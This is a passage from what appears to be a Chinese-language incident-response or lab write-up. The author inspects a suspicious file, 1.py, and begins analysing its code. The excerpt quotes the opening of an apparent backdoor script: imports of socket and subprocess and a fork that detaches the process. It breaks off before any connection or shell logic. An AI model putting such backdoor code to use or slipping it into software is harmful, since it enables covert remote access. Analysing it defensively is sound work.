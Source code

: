 **发现可疑文件，可能会隐藏恶意活动相关的脚本，我们一个一个进行分析；**

**那就先从1.py开始吧；（看它不舒服，嫌疑最大）**

命令；

	cat 1.py

得到；

​![在这里插入图片描述](assets/net-img-68e9f5a37aa1490abec7f3514a0371d4-20240705155114-d8r1z95.png)​

简单分析一下；

	#!/usr/bin/python3

	import socket,subprocess,os,sys, time

	pidrg = os.fork()  
	if pidrg > 0:  
	        sys.exit(0)
